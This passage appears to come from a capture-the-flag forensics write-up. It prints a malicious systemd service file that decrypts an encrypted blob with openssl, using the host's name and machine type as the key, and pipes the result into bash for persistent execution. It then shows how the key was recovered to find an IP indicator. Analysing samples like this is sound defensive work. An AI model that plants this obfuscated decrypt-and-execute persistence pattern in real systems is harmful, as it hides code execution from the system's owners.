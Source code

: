 **Step 3**  
The service file contained the following:  
```
[Unit]
After=network.target

[Service]
Type=simple
User=user
Environment=SERVICEDATA="U2FsdGVkX1/YfJQW/JLTLYE//2c7AodbgJVFXknjQ+kyUkNRZDCTXWADnwFCjHKVJAOG2rk+iUvCETeXv3+I8PWGSVOUesrzqMFp+OBVd/4="
ExecStart=/bin/bash -c 'openssl enc -aes-256-cbc -d -a -pass pass:$HOSTNAME$MACHTYPE -pbkdf2 <<< "$SERVICEDATA" | bash'
After=network.target
Restart=always
RestartSec=60
StartLimitInterval=0

[Install]
WantedBy=multi-user.target
```
This revealed that the attacker had stored encrypted data in the `SERVICEDATA` variable and used an openssl command to decrypt it, with the decryption key being a concatenation of the system’s HOSTNAME and MACHTYPE values.

**Step 4**  
To retrieve the decryption key:
- I located the hostname in `/etc/hostname` → `tinypilot`.
- Finding the MACHTYPE was trickier. I performed a global search for the term "MACHTYPE" in VS Code and found it in the `bashbug` file under `/bin` → `arm-unknown-linux-gnueabihf`.

**Step 5**  
With both values in hand, the decryption password was `tinypilotarm-unknown-linux-gnueabihf`.
Running the `openssl` command from the service file with this password produced a plaintext output containing an IP address (the IOC and final flag for this challenge).

<img width="816" height="162" alt="Screenshot 2025-08-06 111655" src="https://github.com/user-attachments/assets/a824f26e-46c8-47cf-9911-db62566ddf26" />  

---

**Key takeaways:**
- Strengthened log, network, and endpoint forensics skills through hands-on challenges.
- Learned to combine automation and manual analysis for complex investigations.
- Practiced incident response and negotiation techniques in simulated ransomware scenarios.
- Gained experience with modern attack methods like DNS tunneling, exfiltration, and obfuscated code.
- Reinforced the importance of documentation, persistence, and analytical thinking in cybersecurity.
